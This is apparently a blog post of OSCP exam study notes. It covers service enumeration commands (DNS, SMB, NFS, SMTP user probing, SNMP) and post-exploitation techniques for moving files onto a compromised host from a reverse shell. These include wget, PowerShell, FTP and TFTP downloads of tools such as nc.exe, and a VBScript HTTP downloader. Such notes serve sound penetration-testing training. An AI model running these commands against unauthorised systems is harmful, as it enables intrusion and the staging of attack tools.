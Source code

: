 ```yaml
---
title: OSCP Cheat Sheet
date: 2020-06-28 15:30:00
description: Originally created June 21, 2020
featured_image: '/images/blog/oscp/oscp.jpg'
---
```


As I’m studying for the OSCP certification exam, I decided to write all of the commands and techniques I have used during PWK labs and similar machines. This list is still a work in progress, so if you have any methods or tips that are missing from this list, please let me know!

## Enumeration

In the enumeration section, you'll find information on the different ways to enumerate a service. 

### DNS (53/tcp)

The Domain Name System (DNS) is responsible for translating domain names into IP addresses. By using DNSRecon, we can automate DNS enumeration.

	dnsrecon -d <TARGET>

### SMB (139/tcp and 445/tcp)

The Server Message Block (SMB) is a protocol used to share resources like files, printers, etc. There are a number of tools that we can use to complete SMB enumeration.

**nmblookup**

The nmblookup tool collects NetBIOS over TCP/IP client used to lookup NetBIOS names. The `-A` option allows the ability to lookup a specific IP address.

	nmblookup -A <TARGET>

**nmap scripts**

Nmap contains many useful NSE scripts, for SMB there are: 
* `smb-enum-shares` = finds open SMB shares.
* `smb-os-discovery` = determine OS of SMB service.
* `smb-enum-users` = enumerate the SMB users.

To use nmap scripts, enter into Kali terminal:

	nmap -v -p 139,445 --script=<SCRIPT> <TARGET>

### NFS (111/tcp)

The Network File System (NFS), is a distributed file system protocol that allows users on a computer to access files over a network. 

If you find any NFS-related services, we can enumerate them by using NSE scripts. The `*` option acts as a wildcard, so it will allow us to run multiple nfs scripts. 

	nmap -p 111 --script nfs* <TARGET>

If there are any NFS shares, mount them by using the `mount` command along with `-o no lock` to disable file locking. It's also a good habit to check if you can read/write files or change the permissions too by creating a new user with a certain UID.

### SMPT (25/tcp)

The Simple Mail Transport Protocol (SMTP) supports *VRFY* and *EXPN*. They can be used to verify existing users on a mail server. Here's an example: 

	nc 10.11.1.217 25
	[...]
	VRFY root
	252 2.0.0 root
	VRFY idontexist
	550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table

### SNMP (161/udp)

The Simple Network Management Protocol (SNMP) is based on UDP, and is suspectible to IP spoofing and replay attacks. To scan for SNMP ports, we can use the `nmap` tool. The `-sU` option is used to perform UDP scanning and the `--open` will only display open ports.

	sudo nmap -sU --open -p 161 <TARGET> 


## File Transfers

### HTTPS

This is probably the easiest way to transfer a file so I usually try this first. If this doesn't work, then I'll move down the list.

	# In Kali
	python -m SimpleHTTPServer 80

	# In reverse shell - Linux
	wget <HOST> /file

	# In reverse shell - Windows
	powershell -c "(new-object System.Net.WebClient).DownloadFile('<HOST>/file.exe','C:\Users\user\Desktop\file.exe')"

### FTP 

Windows has a built in FTP client at C:\Windows\System32\ftp.exe so this option *should* work. If not, there are other options down below.

	# In Kali
	python -m pyftpdlib -p 21 -w

	# In reverse shell
	echo open <HOST> > ftp.txt
	echo USER anonymous >> ftp.txt
	echo ftp >> ftp.txt 
	echo bin >> ftp.txt
	echo GET file >> ftp.txt
	echo bye >> ftp.txt

	# Execute
	ftp -v -n -s:ftp.txt

### TFTP

Use TFTP when completing a file transfer on older Windows versions like Windows XP and Windows Server 2003 as Powershell may not be installed. 

	# In Kali
	atftpd --daemon --port 4444 /tftp

	# In reverse shell
	tftp -i 10.10.10.10 GET nc.exe

### VBScript

When FTP/TFTP doesn't work, we can use this to download files to the target's machine. The `echo` command will write out a **wget.vbs** script that acts as a HTTP downloader.

	# In reverse shell
	echo strUrl = WScript.Arguments.Item(0) > wget.vbs
	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
	echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
	echo Err.Clear >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
	echo http.Open "GET",strURL,False >> wget.vbs
	echo http.Send >> wget.vbs
	echo varByteArray = http.ResponseBody >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
	echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
	echo strData = "" >> wget.vbs
	echo strBuffer = "" >> wget.vbs
	echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
	echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
	echo Next >> wget.vbs
	echo ts.Close >> wget.vbs

	# Execute
	cscript wget.vbs <HOST>/file.exe file.exe
